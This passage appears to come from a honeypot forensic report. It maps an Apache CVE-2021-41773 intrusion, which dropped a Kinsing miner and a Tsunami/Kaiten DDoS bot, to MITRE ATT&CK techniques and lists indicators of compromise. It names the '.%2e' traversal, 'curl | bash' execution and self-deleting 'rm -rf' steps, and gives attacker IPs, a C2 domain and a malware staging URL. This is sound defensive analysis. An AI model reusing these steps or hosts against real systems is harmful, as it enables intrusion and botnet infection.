

---

## 6. MITRE ATT&CK® for Linux Mapping Table

| Tactic | Technique Name | Technique ID | Forensic Evidence in Lab |
| :--- | :--- | :--- | :--- |
| **Initial Access** | Exploit Public-Facing Application | [T1190](https://attack.mitre.org/techniques/T1190/) | Exploitation of Apache CVE-2021-41773 via `.%2e` path traversal sequences |
| **Execution** | Command & Scripting Interpreter: Unix Shell | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) | Calling `/bin/sh` via cgi-bin; executing shell scripts (`.install`, `.src.sh`, `ap.sh`) |
| **Defense Evasion** | File Deletion | [T1070.004](https://attack.mitre.org/techniques/T1070/004/) | Self-deleting stager: `rm -rf .install` and unlinking directory `.spoollog` |
| **Defense Evasion** | Hidden Files and Directories | [T1564.001](https://attack.mitre.org/techniques/T1564/001/) | Using leading dots to hide files/dirs: `.install`, `.src.sh`, `.remove.sh`, `.spoollog` |
| **Persistence** | Scheduled Task/Job: Cron | [T1053.003](https://attack.mitre.org/techniques/T1053/003/) | Attacker script `0_cron.sh`; Honeypot root cron executing `.remove.sh` |
| **Discovery** | System Network Configuration Discovery | [T1016](https://attack.mitre.org/techniques/T1016/) | Stager script executing `ip -4 -o a` and `ifconfig -a` to inspect egress interfaces |
| **Command & Control** | Ingress Tool Transfer | [T1105](https://attack.mitre.org/techniques/T1105/) | Using `wget` and `curl` to fetch malware `dk86`, stagers `.install`, `.src.sh`, `unk.sh` |
| **Command & Control** | Application Layer Protocol: Web Protocols | [T1071.001](https://attack.mitre.org/techniques/T1071/001/) | HTTP connections to C2: `rr.blueheaven.live`, `116.203.212.184`, `116.202.187.77` |
| **Impact** | Resource Hijacking | [T1496](https://attack.mitre.org/techniques/T1496/) | Kinsing Monero cryptocurrency miner infection hijacking host CPU |
| **Impact** | Network Denial of Service | [T1498](https://attack.mitre.org/techniques/T1498/) | Installation of Tsunami/Kaiten botnet intended for large-scale DDoS attacks |

---

## 7. Indicators of Compromise (IoCs) Summary Table

| Indicator Type | Value / Observable | Detection Context & Significance |
| :--- | :--- | :--- |
| **File SHA256** | `0e574fd30e806fe4298b3cbccb8d1089454f42f52892f87554325cb352646049` | `dk86` malware binary (Tsunami/Kaiten DDoS Botnet) |
| **Attacker IP** | `141.135.85.36` | Source IP sending CVE-2021-41773 exploit payload to download `dk86` |
| **Attacker IP/Port** | `116.202.187.77:56590` | Controller socket connected to malicious process `.src.sh` |
| **Attacker IP** | `45.137.155.55` | Staging host distributing in-memory script `ap.sh` (`curl \| bash`) |
| **Attacker IP** | `103.55.36.245` | Source IP distributing persistence scripts `0_cron.sh`, `0_linux.sh` |
| **Staging URL** | `http://138.197.206.223:80/wp-content/themes/twentysixteen/dk86` | Compromised WordPress site used as malware repository |
| **C2 Domain / IP** | `rr.blueheaven.live` / `116.203.212.184` | Command & Control server distributing stager code `.install` and `.src.sh` |
| **File Path** | `/var/tmp/dk86` | Persistent on-disk location of Tsunami botnet agent |
| **File Path** | `/var/tmp/.log/101068/.spoollog (deleted)` | Unlinked hidden directory used to conceal PIDs 6388 and 20645 |
| **Script Files** | `.install, .src.sh, unk.sh, ap.sh` | Shell scripts utilized across the attacker's exploitation lifecycle |
| **System MAC** | `00:22:48:26:3b:16` | Physical MAC address of `eth0` on the Honeypot virtual machine |
